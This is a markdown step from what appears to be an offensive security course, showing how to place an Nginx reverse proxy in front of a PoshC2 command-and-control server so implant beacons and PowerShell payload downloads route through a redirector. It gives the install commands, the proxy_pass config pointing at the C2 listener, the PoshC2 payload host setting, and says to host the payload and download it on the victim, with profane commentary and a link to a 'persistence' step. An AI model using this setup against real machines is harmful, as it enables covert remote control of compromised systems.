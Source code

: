 # Setting up Nginx with TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffic and beacon traffic can sometimes be encrypted by default making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lets install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets create a config file for pass through connections 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```
    server {
        listen 80;
        #NOTE: This line is so payloads can be downloaded over port 80 using Powershell
        server_name <IP of Proxy Server>;

        location / {
            proxy_pass https://<posh-server IP>:<Posh bind port>;
        }
    }
    ```

5. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here, create a poshc2 project with the bind port set to 80, and in `payloadcomshost` set your `http://proxy-ip:80`

7. Host your payload however and download on victim 

8. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md) or [Go To Next Step](step3-persistence.md)